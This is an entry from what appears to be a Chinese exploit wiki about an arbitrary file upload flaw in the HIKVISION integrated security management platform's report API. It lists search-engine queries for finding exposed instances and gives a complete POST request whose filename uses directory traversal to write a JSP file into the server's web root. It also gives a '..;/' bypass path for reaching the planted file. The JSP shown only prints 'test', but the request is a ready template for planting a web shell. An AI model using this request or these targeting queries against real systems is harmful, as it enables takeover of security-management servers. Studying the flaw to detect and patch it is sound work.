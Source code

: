 # HiKVISION 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

HiKVISION 综合安防管理平台 

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317-20230809120725683.png)

```plain
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```

![img](/assets/PeiQi-Wiki/img/1681709277423-114b364b-2e5a-4fb0-a7b9-26154f61ca9e.png)

```plain
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![img](/assets/PeiQi-Wiki/img/1681709313430-8f4e019f-f3b7-41fc-a86b-ba1c07e59d45.png)构造请上传文件 (通过 env泄漏获取绝对路径，路径一般不会修改)















```sql
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](/assets/PeiQi-Wiki/img/1681709342417-a815332d-13c9-40e4-844a-42eb54661897.png)

```plain
/portal/ui/login/..;/..;/new.jsp
```

![img](/assets/PeiQi-Wiki/img/1681709424146-cb0ef1b8-4732-4c3a-a041-37bad6125d44.png)

